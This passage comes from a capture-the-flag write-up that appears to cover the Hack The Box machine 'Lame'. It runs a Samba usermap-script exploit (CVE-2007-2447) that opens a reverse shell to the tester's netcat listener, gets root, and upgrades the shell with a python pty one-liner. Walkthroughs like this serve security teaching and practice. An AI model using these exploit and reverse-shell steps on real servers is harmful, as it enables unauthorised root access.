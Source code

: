 Next, execute the script with the required options as shown in the usage output (or from reviewing the script itself):

```
└─$ python3 usermap_script.py                                                                                1 ⨯
[*] CVE-2007-2447 - Samba usermap script
[-] usage: python usermap_script.py <RHOST> <RPORT> <LHOST> <LPORT>

└─$ python3 usermap_script.py 10.10.10.3 139 10.10.14.3 8002
[*] CVE-2007-2447 - Samba usermap script
[+] Connecting !
[+] Payload was sent - check netcat !

```

Back in netcat, we get a shell as the root user:

```
Ncat: Connection from 10.10.10.3.
Ncat: Connection from 10.10.10.3:56005.
whoami
root
```

The shell is non-interactive, which means that we cannot run programs that require user input such as "su" or "sudo". If we try and run an interactive program the shell will crash and we will have to reconnect. To fix this we need to "upgrade" the shell to an interactive one. There are many ways to do this (see Upgrading Shells), but we'll be using python here as shown below:

```
python -c 'import pty; pty.spawn("/bin/bash")'
root@lame:/# id
id
uid=0(root) gid=0(root)
root@lame:/# 

```

We are now getting the feedback redirected properly into the interactive shell. This is still not a fully interactive shell, but will suffice for the purposes of this article.

All we need to do now is grab the user and the root flags.

## Summary

This machine is nice because although it is easy, there are a few additional quirks to work out when trying to hack into it. We had to modify our local smb configuration to support the use of the SMBv1 protocol which is not enabled by default in modern implementations of Samba. We also got to use some built in Samba and RPC tools that would be installed on file servers and the clients that access them. Finally, we had to upgrade from a non-interactive shell to a semi-interactive one.  Whilst this machine was not very challenging, it is definitely worth the time and effort it takes to complete it.
